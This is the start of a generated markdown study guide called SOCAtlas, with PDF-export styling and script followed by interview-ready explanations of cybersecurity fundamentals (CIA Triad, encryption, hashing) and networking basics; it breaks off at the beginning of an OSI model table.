



<!-- This file is auto-generated by scripts/generate_complete_guide.py. -->

<style>
@page {
  size: A4;
  margin: 12mm;
}

html[data-pdf-mode] body,
html[data-pdf-mode] .md-typeset,
html[data-pdf-mode] .md-typeset p,
html[data-pdf-mode] .md-typeset li,
html[data-pdf-mode] .md-typeset td,
html[data-pdf-mode] .md-typeset th,
html[data-pdf-mode] .md-typeset blockquote {
  font-family: "Inter", "Segoe UI", Arial, sans-serif !important;
}

html[data-pdf-mode] .md-typeset code,
html[data-pdf-mode] .md-typeset pre,
html[data-pdf-mode] .md-typeset pre code {
  font-family: "JetBrains Mono", "SFMono-Regular", Consolas, monospace !important;
}

html[data-pdf-mode="color"],
html[data-pdf-mode="color"] * {
  -webkit-print-color-adjust: exact;
  print-color-adjust: exact;
}

html[data-pdf-mode="paper"] {
  --md-primary-fg-color: #000000 !important;
  --md-primary-fg-color--light: #000000 !important;
  --md-primary-fg-color--dark: #000000 !important;
  --md-accent-fg-color: #000000 !important;
  --md-default-fg-color: #000000 !important;
  --md-default-fg-color--light: #111111 !important;
}

html[data-pdf-mode="paper"] body,
html[data-pdf-mode="paper"] .md-main,
html[data-pdf-mode="paper"] .md-content,
html[data-pdf-mode="paper"] .md-content__inner,
html[data-pdf-mode="paper"] .md-typeset {
  background: #ffffff !important;
  color: #000000 !important;
  box-shadow: none !important;
}

html[data-pdf-mode="paper"] .md-typeset *,
html[data-pdf-mode="paper"] .md-typeset p,
html[data-pdf-mode="paper"] .md-typeset li,
html[data-pdf-mode="paper"] .md-typeset td,
html[data-pdf-mode="paper"] .md-typeset th,
html[data-pdf-mode="paper"] .md-typeset blockquote,
html[data-pdf-mode="paper"] .md-typeset code,
html[data-pdf-mode="paper"] .md-typeset h1,
html[data-pdf-mode="paper"] .md-typeset h2,
html[data-pdf-mode="paper"] .md-typeset h3,
html[data-pdf-mode="paper"] .md-typeset h4 {
  color: #000000 !important;
  text-shadow: none !important;
}

html[data-pdf-mode="paper"] .md-typeset a {
  color: #000000 !important;
  text-decoration: underline !important;
}

html[data-pdf-mode="paper"] .md-typeset .admonition,
html[data-pdf-mode="paper"] .md-typeset details,
html[data-pdf-mode="paper"] .md-typeset .admonition-title,
html[data-pdf-mode="paper"] .md-typeset summary,
html[data-pdf-mode="paper"] .md-typeset code,
html[data-pdf-mode="paper"] .md-typeset table:not([class]),
html[data-pdf-mode="paper"] .md-typeset th,
html[data-pdf-mode="paper"] .md-typeset td,
html[data-pdf-mode="paper"] .md-typeset blockquote,
html[data-pdf-mode="paper"] .pdf-guide-note {
  background: #ffffff !important;
  border-color: #000000 !important;
  box-shadow: none !important;
}

html[data-pdf-mode="paper"] .md-typeset img,
html[data-pdf-mode="paper"] .md-typeset svg {
  filter: grayscale(100%) !important;
}

html[data-pdf-mode="paper"] .pdf-guide-note {
  color: #000000 !important;
}

html[data-pdf-export="download"] .md-main__inner,
html[data-pdf-export="download"] .md-grid,
html[data-pdf-export="download"] .md-content {
  max-width: 100% !important;
  margin: 0 !important;
  padding: 0 !important;
}

html[data-pdf-export="download"] .md-content__inner {
  border: 0 !important;
  box-shadow: none !important;
  margin: 0 !important;
  padding: 0 !important;
}

.pdf-guide-note {
  margin: 0.75rem 0 1.25rem;
  padding: 0.85rem 1rem;
  border-radius: 0.8rem;
  font-weight: 600;
}

.pdf-guide-note--selection {
  border: 1px solid rgba(99, 91, 255, 0.2);
  background: rgba(99, 91, 255, 0.08);
}

.pdf-guide-note--status {
  border: 1px solid rgba(10, 191, 83, 0.24);
  background: rgba(10, 191, 83, 0.08);
}

html[data-pdf-export="download"] .pdf-export-shell {
  position: fixed;
  top: 0;
  left: -100000px;
  width: 1200px;
  padding: 0;
  margin: 0;
  background: #ffffff;
  z-index: -1;
  pointer-events: none;
}

html[data-pdf-export="download"] .pdf-export-canvas,
html[data-pdf-export="download"] .pdf-export-canvas * {
  animation: none !important;
  transition: none !important;
}

html[data-pdf-export="download"] .pdf-export-canvas,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset p,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset li,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset td,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset th,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset blockquote {
  font-family: Arial, "Helvetica Neue", Helvetica, sans-serif !important;
  line-height: 1.55 !important;
}

html[data-pdf-export="download"] .pdf-export-canvas .md-typeset code,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset pre,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset pre code {
  font-family: "Courier New", Courier, monospace !important;
}

html[data-pdf-export="download"] .pdf-export-canvas,
html[data-pdf-export="download"] .pdf-export-canvas .md-content__inner {
  background: #ffffff !important;
}

html[data-pdf-export="download"] .pdf-export-canvas .md-typeset h1,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset h2,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset h3,
html[data-pdf-export="download"] .pdf-export-canvas .md-typeset h4 {
  line-height: 1.22 !important;
  letter-spacing: 0 !important;
}

@media print {
  .md-header,
  .md-tabs,
  .md-sidebar,
  .md-footer,
  .md-top,
  .md-content__button,
  [data-md-component="toc"] {
    display: none !important;
  }

  .md-main__inner,
  .md-grid,
  .md-content {
    max-width: 100% !important;
    margin: 0 !important;
    padding: 0 !important;
  }

  .md-content__inner {
    border: 0 !important;
    box-shadow: none !important;
    margin: 0 !important;
    padding: 0 !important;
  }

  .md-typeset h1,
  .md-typeset h2,
  .md-typeset h3,
  .md-typeset h4 {
    page-break-after: avoid;
  }

  .md-typeset table:not([class]),
  .md-typeset pre,
  .md-typeset img,
  .md-typeset blockquote,
  .md-typeset details,
  .md-typeset .admonition {
    break-inside: avoid-page;
  }

  html[data-pdf-export="download"] #pdf-download-status {
    display: none !important;
  }
}
</style>

<script>
(() => {
  const SECTION_SELECTOR = '[data-pdf-section-group]';
  const HTML2PDF_CDN = "https://cdn.jsdelivr.net/npm/html2pdf.js@0.10.1/dist/html2pdf.bundle.min.js";
  const EMOJI_RE = /[\p{Extended_Pictographic}️]/gu;

  const parseSelection = () => {
    const raw = new URLSearchParams(window.location.search).get("sections");
    if (!raw) {
      return [];
    }

    return [...new Set(
      raw
        .split(",")
        .map((value) => value.trim().toLowerCase())
        .filter(Boolean)
    )];
  };

  const parseMode = () => {
    const mode = new URLSearchParams(window.location.search).get("mode");
    return mode === "paper" ? "paper" : "color";
  };

  const isDownloadRequested = () =>
    new URLSearchParams(window.location.search).get("download") === "1";

  const applySelection = (selected) => {
    if (!selected.length) {
      return;
    }

    const sections = Array.from(document.querySelectorAll(SECTION_SELECTOR));
    const selectedSet = new Set(selected);
    const labels = [];

    sections.forEach((section) => {
      const slug = section.dataset.pdfSectionGroup;
      const keep = selectedSet.has(slug);

      if (keep) {
        labels.push(section.dataset.pdfSectionTitle || slug);
      }

      section.hidden = !keep;
    });

    if (!labels.length) {
      return;
    }

    const title = document.querySelector(".md-typeset h1");
    if (!title) {
      return;
    }

    let note = document.getElementById("pdf-selection-summary");
    if (!note) {
      note = document.createElement("p");
      note.id = "pdf-selection-summary";
      note.className = "pdf-guide-note pdf-guide-note--selection";
      title.insertAdjacentElement("afterend", note);
    }

    const modeLabel = parseMode() === "paper" ? "Paper-friendly" : "Color PDF";
    note.textContent = `Included in this PDF: ${labels.join(", ")} • ${modeLabel}`;
  };

  const applyMode = () => {
    document.documentElement.dataset.pdfMode = parseMode();
  };

  const ensureStatusNote = () => {
    let note = document.getElementById("pdf-download-status");
    if (note) {
      return note;
    }

    const title = document.querySelector(".md-typeset h1");
    if (!title) {
      return null;
    }

    note = document.createElement("p");
    note.id = "pdf-download-status";
    note.className = "pdf-guide-note pdf-guide-note--status";
    note.setAttribute("data-html2canvas-ignore", "true");
    title.insertAdjacentElement("afterend", note);
    return note;
  };

  const setStatus = (message) => {
    const note = ensureStatusNote();
    if (note) {
      note.textContent = message;
    }
  };

  const buildFilename = () => {
    const selected = parseSelection();
    const mode = parseMode();

    if (!selected.length) {
      return `socatlas-complete-guide-${mode}.pdf`;
    }

    if (selected.length <= 2) {
      return `socatlas-${selected.join("-")}-${mode}.pdf`;
    }

    return `socatlas-${selected[0]}-${selected.length}-sections-${mode}.pdf`;
  };

  const stripEmoji = (value) =>
    value.replace(EMOJI_RE, "").replace(/\s{2,}/g, " ").trim();

  const loadHtml2Pdf = () =>
    new Promise((resolve, reject) => {
      if (window.html2pdf) {
        resolve(window.html2pdf);
        return;
      }

      const existing = document.querySelector('script[data-pdf-lib="html2pdf"]');
      if (existing) {
        existing.addEventListener("load", () => resolve(window.html2pdf), { once: true });
        existing.addEventListener("error", () => reject(new Error("Failed to load html2pdf")), { once: true });
        return;
      }

      const script = document.createElement("script");
      script.src = HTML2PDF_CDN;
      script.async = true;
      script.dataset.pdfLib = "html2pdf";
      script.onload = () => resolve(window.html2pdf);
      script.onerror = () => reject(new Error("Failed to load html2pdf"));
      document.head.appendChild(script);
    });

  const triggerPrint = () => {
    window.setTimeout(() => window.print(), 500);
  };

  const waitForFonts = async () => {
    if (document.fonts && document.fonts.ready) {
      await document.fonts.ready;
    }
  };

  const waitForImages = async () => {
    const images = Array.from(document.querySelectorAll(".md-content__inner img"));
    await Promise.all(
      images.map(
        (image) =>
          new Promise((resolve) => {
            if (image.complete) {
              resolve();
              return;
            }

            image.addEventListener("load", resolve, { once: true });
            image.addEventListener("error", resolve, { once: true });
          })
      )
    );
  };

  const waitForImagesWithin = async (root) => {
    const images = Array.from(root.querySelectorAll("img"));
    await Promise.all(
      images.map(
        (image) =>
          new Promise((resolve) => {
            if (image.complete) {
              resolve();
              return;
            }

            image.addEventListener("load", resolve, { once: true });
            image.addEventListener("error", resolve, { once: true });
          })
      )
    );
  };

  const waitForLayout = () =>
    new Promise((resolve) => {
      requestAnimationFrame(() => {
        requestAnimationFrame(resolve);
      });
    });

  const buildExportClone = (target) => {
    const shell = document.createElement("div");
    shell.className = "pdf-export-shell";

    const clone = target.cloneNode(true);
    clone.classList.add("pdf-export-canvas");

    clone.querySelectorAll("#pdf-download-status").forEach((node) => node.remove());

    if (parseMode() === "paper") {
      clone.querySelectorAll("[data-pdf-section-title]").forEach((section) => {
        if (section.dataset.pdfSectionTitle) {
          section.dataset.pdfSectionTitle = stripEmoji(section.dataset.pdfSectionTitle);
        }
      });

      clone
        .querySelectorAll("h1, h2, h3, h4, h5, h6, .pdf-guide-note")
        .forEach((node) => {
          node.textContent = stripEmoji(node.textContent || "");
        });
    }

    shell.appendChild(clone);
    document.body.appendChild(shell);

    return { shell, clone };
  };

  const triggerDownload = async () => {
    let exportShell = null;
    try {
      setStatus("Preparing your PDF file...");
      const html2pdf = await loadHtml2Pdf();
      const target = document.querySelector(".md-content__inner");

      if (!target) {
        throw new Error("PDF content root not found");
      }

      document.documentElement.dataset.pdfExport = "download";
      await waitForFonts();
      await waitForImages();
      await waitForLayout();
      const exportNodes = buildExportClone(target);
      exportShell = exportNodes.shell;
      await waitForImagesWithin(exportNodes.clone);
      await waitForLayout();

      await html2pdf()
        .set({
          filename: buildFilename(),
          margin: [10, 10, 10, 10],
          pagebreak: { mode: ["css", "legacy"] },
          image: { type: "jpeg", quality: 0.96 },
          html2canvas: {
            scale: 2,
            useCORS: true,
            backgroundColor: "#ffffff",
          },
          jsPDF: {
            unit: "mm",
            format: "a4",
            orientation: "portrait",
          },
        })
        .from(exportNodes.clone)
        .save();

      if (exportShell) {
        exportShell.remove();
      }
      delete document.documentElement.dataset.pdfExport;
      setStatus("PDF downloaded. Check your browser downloads folder.");
    } catch (error) {
      if (exportShell) {
        exportShell.remove();
      }
      delete document.documentElement.dataset.pdfExport;
      console.error(error);
      setStatus("Automatic PDF download failed. Opening the print dialog instead.");
      triggerPrint();
    }
  };

  const init = () => {
    applyMode();
    applySelection(parseSelection());

    if (isDownloadRequested()) {
      window.setTimeout(() => {
        triggerDownload();
      }, 350);
    }
  };

  if (document.readyState === "loading") {
    document.addEventListener("DOMContentLoaded", init, { once: true });
  } else {
    init();
  }
})();
</script>

# SOCAtlas Complete Guide

<section class="pdf-guide-section" data-pdf-section-group="start-here" data-pdf-section-title="Start Here" markdown="1">

## Start Here

### Home

SOCAtlas helps you master cybersecurity concepts in a clear order and revise them instantly before interviews or operational shifts. It is built for SOC analysts, engineers, students, and anyone who demands practical explanations with real attack scenarios and tools.
{ .page-lead }


!!! note "What you will find here"
    - core concepts explained in plain, interview-ready language
    - networking, threats, detection, governance, and cloud notes
    - real examples, tools, and attack scenarios for every topic
    - 1200 quick-revision points organized by domain


#### Choose your starting point

<div class="grid cards" markdown>

-   __New to cybersecurity?__

    Begin with the fundamentals: what cybersecurity means, the CIA Triad, encryption, and hashing. These are the concepts that come up in every interview.

    [Open fundamentals](fundamentals/introduction.md)

-   __Networking feels fuzzy?__

    Review IP addressing, DNS, DHCP, VPNs, firewalls, proxies, and both the OSI and TCP/IP models. They are the backbone of most security discussions.

    [Study networking](networking/basics.md)

-   __Preparing for SOC roles?__

    Focus on SIEM, EDR, IDS, IPS, incident response, IOCs, IOAs, and the MITRE ATT&CK framework — exactly what SOC analysts use daily.

    [Go to detection and defense](defense/siem_soc_edr.md)

-   __Need fast revision?__

    Jump straight into the 1200 quick-point pages. Each row gives you a clean definition, a one-sentence answer, and a real-world example.

    [Jump to quick points](quick/basics.md)

</div>

#### How to answer any security question

Follow this four-step structure and you will sound confident and clear in any technical interview:

1. **Define** the concept in one precise sentence.
2. **Explain** how it works in plain terms without unnecessary jargon.
3. **Give an example** such as a real attack, tool, or scenario.
4. **Connect** it to a control, framework, or defense strategy.

> **Example: firewall** "A firewall is a security control that filters network traffic based on predefined rules. It inspects source IPs, destination IPs, ports, and protocols to decide what is allowed or blocked. A company might block all inbound RDP from the internet at the perimeter firewall. Firewalls work alongside IDS, IPS, VPNs, and network segmentation as part of layered defense."

#### Recommended study order

##### Starting from zero

| Step | What to Read | Why |
|------|-------------|-----|
| 1 | [What is Cybersecurity?](fundamentals/introduction.md) | Build the mental model first |
| 2 | [CIA Triad](fundamentals/cia_triad.md), [Encryption](fundamentals/encryption.md), [Hashing](fundamentals/hashing.md) | The three pillars interviewers always test |
| 3 | [Networking Basics](networking/basics.md) and [OSI & TCP/IP Models](networking/osi_tcpip.md) | Everything connects through the network |
| 4 | [Vulnerabilities & Risk](threats/vulnerabilities.md) and [Modern Malware](threats/cyber_threats.md) | Know what you are defending against |
| 5 | [SIEM, SOC & EDR](defense/siem_soc_edr.md) and [Incident Response](defense/incident_response.md) | The tools and playbooks defenders use |

##### Fast revision before an interview

1. Skim [Basics](quick/basics.md)
2. Review [Attacks](quick/attacks.md) and [Tools](quick/tools.md)
3. Revisit [Security frameworks](frameworks.md)
4. Finish with [IOC, IOA & MITRE ATT&CK](governance/ioc_ioa_mitre.md)

#### Must-know concepts at a glance

| Concept | What it means in one line | Key tool or reference |
|---------|--------------------------|----------------------|
| CIA Triad | Confidentiality, Integrity, Availability — the three security properties everything maps to | Foundation of every control decision |
| Zero Trust | Never trust anything by default; verify every user, device, and context continuously | Zscaler, BeyondCorp, Conditional Access |
| SIEM | Centralized log collection, search, and correlation for detecting and investigating threats | Splunk, Microsoft Sentinel, IBM QRadar |
| EDR | Endpoint monitoring that records behavior and supports detection, containment, and investigation | CrowdStrike Falcon, SentinelOne, Defender for Endpoint |
| MFA | Verifying identity with two or more independent factors to stop credential-only attacks | Duo Security, YubiKey, Microsoft Authenticator |
| Zero-Day | A vulnerability exploited before the vendor has patched or even acknowledged it | Log4Shell, EternalBlue before patch |
| DDoS | Flooding a service with traffic from many sources until it becomes unavailable | Cloudflare, AWS Shield, scrubbing centers |
| Kill Chain | Lockheed Martin model showing how an attack progresses through seven sequential phases | Reconnaissance → Actions on Objectives |
| MITRE ATT&CK | Knowledge base of real-world adversary tactics and techniques mapped to detections | [attack.mitre.org](https://attack.mitre.org) |
| IR Cycle | Structured process — Prepare, Identify, Contain, Eradicate, Recover, Lessons Learned | NIST SP 800-61 |

!!! tip "Use the site in two modes"
    **Learning mode:** Start with the guide pages under Fundamentals, Networking, Threats, and Detection. They give you context, examples, and structure.
    **Revision mode:** Switch to the quick-point pages when you want shorter answers you can review rapidly.

</section>

<section class="pdf-guide-section" data-pdf-section-group="fundamentals" data-pdf-section-title="🏛️ Fundamentals" markdown="1">

## 🏛️ Fundamentals

### Introduction to Cybersecurity

Cybersecurity is the practice of protecting computers, networks, systems, applications, and data from digital attacks, unauthorized access, damage, and theft.
{ .page-lead }

!!! note "Interview answer"
    *"Cybersecurity is the practice of protecting systems, networks, and data from digital attacks, unauthorized access, and damage. It uses technical controls, processes, and user awareness to reduce risk and keep information secure, accurate, and available."*

#### What Cybersecurity Covers

| Area | What it focuses on | Common examples |
| --- | --- | --- |
| Network Security | Protecting network traffic and infrastructure | Firewalls, VPNs, IDS/IPS, segmentation |
| Data Protection | Keeping sensitive information private and safe | Encryption, backups, DLP, access control |
| Application Security | Reducing weaknesses in software | Secure coding, code review, WAF, patching |
| Endpoint Security | Protecting laptops, phones, and servers | EDR, disk encryption, hardening, patching |
| Identity and Access | Making sure the right user gets the right access | MFA, SSO, RBAC, conditional access |

#### Why It Matters

Cybersecurity matters because digital systems support business operations, banking, healthcare, communication, government services, and personal privacy. When security fails, the impact is often much bigger than a technical bug. It can lead to downtime, fraud, data exposure, legal risk, and loss of trust.

#### A Strong Interview Structure

If an interviewer asks, "What is cybersecurity?", a strong answer usually has four parts:

1. Define the term.
2. Mention the main types of threats it protects against.
3. Explain the controls used to defend systems.
4. Connect it to the CIA Triad.

##### Sample Answer

> "Cybersecurity is the practice of protecting systems, networks, and data from digital attacks, unauthorized access, and damage. It involves defending against threats like malware, phishing, ransomware, and data breaches using controls such as firewalls, encryption, multi-factor authentication, and intrusion detection. The main goal is to preserve confidentiality, integrity, and availability."

!!! tip "Easy way to remember it"
    Cybersecurity is the digital equivalent of locks, alarms, identity checks, cameras, and emergency response plans.

### CIA Triad & Founding Principles

The CIA Triad is the foundational model of cybersecurity. Nearly every security control, policy, and architecture decision can be mapped back to confidentiality, integrity, or availability.
{ .page-lead }

{ .page-image }

*The three goals of cybersecurity are keeping data private, accurate, and available.*
{ .image-caption }

!!! note "Interview answer"
    *"The CIA Triad stands for Confidentiality, Integrity, and Availability. Confidentiality means data is accessible only to authorized users. Integrity means data remains accurate and untampered. Availability means systems and data are accessible when needed. Together, these three principles form the foundation of cybersecurity."*

#### 1. Confidentiality

Confidentiality means protecting sensitive information from unauthorized access.

- Encryption such as AES and TLS
- Strong passwords and MFA
- Access controls such as RBAC and ACLs
- Data classification and least privilege

Example: Only authorized bank employees should be able to view customer account details.

#### 2. Integrity

Integrity means keeping data accurate, complete, and protected from unauthorized changes.

- Hashing such as SHA-256
- Digital signatures
- Checksums and audit logs
- File-integrity monitoring

Example: A downloaded file is hashed and compared with the publisher's hash to confirm it was not tampered with.

#### 3. Availability

Availability means systems and data are accessible when authorized users need them.

- Backups and disaster recovery
- Load balancing and failover
- DDoS protection
- High-availability design

Example: A hospital's patient record system must remain available around the clock for doctors and staff.

#### Quick summary table

| Principle | Goal | Common Control | Main Threat |
| --- | --- | --- | --- |
| Confidentiality | Keep data private | Encryption, MFA, access control | Data breach |
| Integrity | Keep data accurate | Hashing, signatures, audit logs | Tampering |
| Availability | Keep systems accessible | Backups, failover, DDoS protection | Outage or disruption |

#### How to talk about it in interviews

When asked about the CIA Triad, do not only expand the acronym. Explain each part with one control and one example. That makes the answer sound practical instead of memorized.

##### Example Answer

> "Confidentiality is about preventing unauthorized access, so we use controls like encryption and MFA. Integrity is about making sure data is not changed without permission, so we use hashing and digital signatures. Availability is about keeping systems accessible, so we use backups, failover, and DDoS protection."

!!! note "Related concept"
    AAA helps enforce the CIA Triad in real systems: authentication verifies identity, authorization controls access, and accounting records activity.

### Encryption & Key Management

Encryption protects data by converting readable information into ciphertext so that only someone with the correct key can read it. It is one of the main controls used to protect confidentiality.
{ .page-lead }

!!! note "Interview answer"
    *"Encryption is the process of converting plaintext into ciphertext using an algorithm and a key. Its main purpose is to protect confidentiality so that even if data is intercepted or stolen, it cannot be read without the correct decryption key."*

#### Symmetric and asymmetric encryption

| Type | How it works | Strength | Common examples |
| --- | --- | --- | --- |
| Symmetric | Uses the same key for encryption and decryption | Fast and efficient for large amounts of data | AES |
| Asymmetric | Uses a public key and a private key | Solves the key-sharing problem | RSA, ECC |

In practice, symmetric encryption is used for speed, while asymmetric encryption is used for identity, key exchange, and digital signatures.

#### How encryption is used in TLS

HTTPS uses both styles together:

1. Asymmetric cryptography helps the client verify the server and agree on session secrets.
2. Symmetric encryption protects the actual data exchanged during the session.

This hybrid approach gives both security and performance.

#### Data at rest, in transit, and in use

| Data state | Meaning | Common protection |
| --- | --- | --- |
| Data at rest | Data stored on disk, database, or backup media | Full-disk encryption, database encryption, key management |
| Data in transit | Data moving across a network | TLS, VPNs, SSH |
| Data in use | Data being processed in memory | Process isolation, secure enclaves, confidential computing |

#### Related terms

- **AES:** Common symmetric encryption standard used for files, disks, and sessions.
- **RSA:** Common asymmetric algorithm used in certificates, signatures, and key exchange scenarios.
- **ECC:** An efficient asymmetric approach that gives strong security with smaller key sizes.
- **KMS:** A key management service used to generate, store, rotate, and control encryption keys.

#### Common interview questions

###### What is the difference between symmetric and asymmetric encryption?
> **Answer:** Symmetric encryption uses one shared key for both encryption and decryption. Asymmetric encryption uses a public and private key pair. Symmetric encryption is faster, while asymmetric encryption is better for key exchange and identity-related use cases.

###### Why might an organization choose ECC over RSA?
> **Answer:** ECC can provide comparable security with smaller key sizes, which often means lower computational overhead and better efficiency on mobile, cloud, and constrained devices.

###### What is a Key Management Service, or KMS?
> **Answer:** A KMS is a centralized system for generating, storing, rotating, and controlling encryption keys so applications do not need to embed or expose those keys directly.

### Hashing & Data Integrity

Hashing converts data into a fixed-length value called a hash or digest. Unlike encryption, hashing is designed to be one-way, which makes it useful for integrity checks and password verification.
{ .page-lead }

!!! note "Interview answer"
    *"Hashing is a one-way process that converts data into a fixed-length digest. In cybersecurity, we use it mainly to verify integrity and to store passwords safely without keeping the original plaintext value."*

#### Properties of a secure hash

| Property | Meaning | Why it matters |
| --- | --- | --- |
| Deterministic | The same input always gives the same output | Lets you verify files and messages reliably |
| One-way | The original input should not be recoverable from the hash | Protects stored password values |
| Avalanche effect | A small input change causes a very different output | Makes tampering easy to detect |
| Collision resistance | Two different inputs should not produce the same hash | Reduces the chance of malicious substitution |

#### Common algorithms

| Algorithm | Typical use | Security status |
| --- | --- | --- |
| MD5 | Legacy file checks | Not suitable for security-sensitive use |
| SHA-1 | Legacy signatures and checks | Considered broken for many security uses |
| SHA-256 | File integrity, certificates, digital systems | Widely accepted |
| SHA-512 | High-strength hashing tasks | Strong when used appropriately |
| bcrypt / Argon2 | Password hashing | Preferred for password storage |

#### Hashing versus encryption

| Feature | Hashing | Encryption |
| --- | --- | --- |
| Main purpose | Integrity and verification | Confidentiality |
| Reversible | No | Yes, with the correct key |
| Key required | Usually no | Yes |
| Common use | Password storage, checksums, signatures | HTTPS, VPNs, protected files |

#### Common uses

- verify that a file or message has not changed
- store passwords without keeping plaintext values
- support digital signatures
- identify malware samples and files

#### Common interview questions

###### What is salt, and why do we use it in hashing?
> **Answer:** A salt is a random value added before hashing a password. It prevents identical passwords from producing identical hashes and makes rainbow-table attacks much less effective.

###### What is a collision in hashing?
> **Answer:** A collision happens when two different inputs produce the same hash value. Good hash algorithms are designed to make collisions extremely difficult to find.

###### How do you slow down brute-force attacks against password hashes?
> **Answer:** Use password-hashing algorithms such as bcrypt, scrypt, or Argon2. They are intentionally slow and often use salting, which makes large-scale guessing attacks more expensive.

</section>

<section class="pdf-guide-section" data-pdf-section-group="networking" data-pdf-section-title="🌐 Networking" markdown="1">

## 🌐 Networking

### Networking Basics

Networking is the foundation that lets devices communicate, share data, and reach services inside an organization and across the internet.
{ .page-lead }

!!! note "Interview answer"
    *"A network is a group of connected devices that exchange data using agreed protocols. In cybersecurity, networking matters because most attacks, detections, and defenses depend on how systems communicate."*

#### Core terms

| Term | Meaning |
| --- | --- |
| IP address | Logical network address, such as `192.168.1.10` |
| MAC address | Hardware address used on the local network |
| Port | Logical endpoint used by a service, such as 443 for HTTPS |
| Protocol | Agreed set of communication rules |
| Packet | Small unit of data sent across the network |
| Router | Connects networks and forwards traffic |
| Switch | Connects devices inside the same local network |
| DNS | Translates names into IP addresses |
| DHCP | Automatically assigns IP settings |

#### Common network types

| Type | What it means | Example |
| --- | --- | --- |
| LAN | Local Area Network in a small area | Home Wi-Fi or office floor |
| WAN | Wide Area Network across large distances | Branch offices linked across cities |
| MAN | Metropolitan Area Network across a city-scale area | Campus or municipal fiber network |
| VPN | Encrypted tunnel over another network | Remote worker connecting to company resources |

#### Common protocols and ports

| Protocol | Port | Main purpose |
| --- | --- | --- |
| HTTP | 80 | Standard web traffic |
| HTTPS | 443 | Encrypted web traffic |
| FTP | 21 | File transfer |
| SSH | 22 | Secure remote administration |
| SMTP | 25 | Sending email |
| DNS | 53 | Name resolution |
| DHCP | 67/68 | IP configuration |
| RDP | 3389 | Remote desktop access |

#### IPv4 and IPv6

| Version | Description | Example |
| --- | --- | --- |
| IPv4 | 32-bit addressing, still widely used | `192.168.1.1` |
| IPv6 | 128-bit addressing with a much larger address space | `2001:db8::1` |

#### Common private IPv4 ranges

| Range | Common use |
| --- | --- |
| `10.0.0.0 - 10.255.255.255` | Large private networks |
| `172.16.0.0 - 172.31.255.255` | Medium-size internal networks |
| `192.168.0.0 - 192.168.255.255` | Home and small office networks |

#### Why Networking Matters in Security

Security teams use these basics every day to:

- identify suspicious traffic
- understand which systems are talking to each other
- trace attacker movement
- block risky ports and protocols
- segment networks to limit blast radius

If you can read IPs, ports, protocols, and traffic patterns comfortably, you can understand both attacks and defenses much faster.

### OSI & TCP/IP Models

The OSI model is a seven-layer reference model used to explain how communication works across a network. The TCP/IP model is the practical model used by the internet. Security teams use both models to describe where a problem exists and which controls apply.
{ .page-lead }

{ .page-image }

*Use the OSI model to explain communication layer by layer. Use the TCP/IP model to explain how internet protocols work in practice.*
{ .image-caption }

!!! note "Interview answer"
    *"The OSI model is a seven-layer reference model for understanding network communication. The TCP/IP model is a simpler four-layer model used in real-world networking. In cybersecurity, these models help us identify where attacks happen and which controls should respond at each layer."*

#### OSI layers

| Layer | Main purpose | Common examples | Security examples |
| --- | --- | --- | --- |
